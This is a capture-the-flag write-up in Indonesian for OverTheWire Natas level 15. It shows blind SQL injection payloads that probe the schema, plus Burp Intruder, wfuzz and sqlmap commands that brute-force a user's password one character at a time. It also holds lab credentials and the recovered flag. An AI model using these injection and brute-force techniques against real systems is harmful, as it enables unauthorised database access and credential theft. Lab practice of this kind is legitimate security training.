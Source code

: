 ```yaml
---
layout: default
level: 15
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas15 \
URL:      http://natas15.natas.labs.overthewire.org

# solve
- login with cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
- lalu saya melihat source codenya
  ![alt text](docs/images/image-38.png)
- disini saya mencoba beberapa parameter terlebih dahulu seperti
  ```bash
  "
  '
  ```
- dan ketika saya coba dengan '"' ini dikatakan error
  ![alt text](docs/images/image-39.png)
- ini adalah penggambaran sqlnya
  ```bash
  SELECT * FROM users where username = "<input>"
  SELECT * FROM users where username = "natas16" "1" = "1"

  ## mencari jumlah user ketemu di 1,2
  ## menggunakan tanda komen di akhir agar ; di php bisa dihilangkan
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#";
  ## 1   => not exits FALSE
  ## 1,2 => exits TRUE

  ## karena sudah ketemu bahwa terdapat 2 kolom maka kita perlu UNION keduanya dari information schema
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#";
  ## TRUE

  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#";
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "b";#";
  ## FALSE
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#";

  ## kita sudah tau ada tabble yang dimulai dari huruf g
  ## dan sebenernya ini tidak terlalu akurat
  ## jadi saya mencoba tambahan agar akurat
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" \
  AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#";
  ## FALSE

  ## dan ketika saya coba 1,1 u berhasil
  ## 2,1 s berhasil
  ```

- dan ini adalah sql yang saya coba
  ```bash
  natas16" "1" = "1
  fafa" UNION ALL SELECT 1;#
  fafa" UNION ALL SELECT 1, 2;#
  fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "u";#
  ## true  

  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,2,1) = "u";#
  ```

## automation with burp suite
- saya mencoba burp suite intruder untuk mmempermudah mencari nama tablenye
  ![alt text](docs/images/image-40.png)
- setelah itu saya mengatur menjadi cluster bomb attack
  ![alt text](docs/images/image-41.png)
  - payload position = 1
  - payload type     = numbers
  - from 1 to 10
  ![alt text](docs/images/image-42.png)
  - payload position = 2
  - payload type     = brute force
  - minlength=1, maxlength=2
- lalu start attack dan tunggu hingga proses selesai
  ![alt text](docs/images/image-43.png)
- jika sudah kita bisa lakukan grep dengan option ini
  ![alt text](docs/images/image-44.png)
- jangan lupa ubah urutan ininya menjadi yang atas biar user exits tampil di atas jika sudah kita berhasil mendapatkan
  ![alt text](docs/images/image-45.png)
  ```users```

- setelah kita mengetahui table users saya mencari informasi lainya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='a';#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='p';#
  ```
- lalu saya mencoba brute force otomatis lagi pake burp suite
  ![alt text](docs/images/image-47.png)
- jangan lupa di grep lagi
- jika sudah nanti outputnya akan seperti ini
  ![alt text](docs/images/image-48.png)
- lalu saya split responseya di cyberchef
  
  ```
  puasesrsnwaomrde
  1122334455667788

  password
  username
  ```

## brute force pass with wfuzz
- setelahh kita mengetaui nama column, kita hanya perlu membruteforce passwordnya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM users WHERE username = 'natas16' AND SUBSTRING(password,1,1) = 'a';#
  ```
- lalu saya coba melakukan brute force menggunakan burp suite dan mencoba menggunakan wfuzz
  ```bash
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\nA\nB\nC\nD\nE\nF\nG\nH\nI\nJ\nK\nL\nM\nN\nO\nP\nQ\nR\nS\nT\nU\nV\nW\nX\nY\nZ\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars

  wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d 'username=fafa" UNION ALL SELECT 1,2 FROM users WHERE username = "natas16" AND SUBSTRING(password,1,1) = "FUZZ";#' natas15.natas.labs.overthewire.org/index.php | grep -v 920
  # got 1 == h

  for i in {1..33}; do echo $i; done
  # 1
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" \
  -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done
  # h
  # p
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913
  # filternya ganda

  # namun terdapat masala ketika kita coba gunakan itu kemungkinann besar output hhuruf kecil dan besar akan sama begitu pula dengan length datanya kia perlu menambakan BINARY di sebelum = "a"
  # = \"FUZZ\" => = BINARY \"FUZZ\"
  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913

  cat > wfuzz << EOF
  ---isi dengan output tadi
  EOF 

  cat wfuzz | awk '{print $9}' | tr -d "\"" | tr -d "\n"
  # hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
  ```

## brute force with burp suite
- tambahhkan intruder seperti biasa dengan cluster bom attack typenya
  - payload 1, number, from 1 to 33
  - payload 2, bruteforce "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUFWXYZ"
  ![alt text](docs/images/image-49.png)
- setelah menunggu hasilnya seperti ini
  

## automation with wfuzz (gagal)
```
wfuzz -z file,/usr/share/wordlists/sqlmap.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"
wfuzz -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"

# wfuzz
echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars


# nyoba sqlmap namun tidak berhasil
sqlmap -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs
sqlmap -u "http://natas15.natas.labs.overthewire.org" --headers="Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs --batch --flush-session -v 3
```

# flag
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo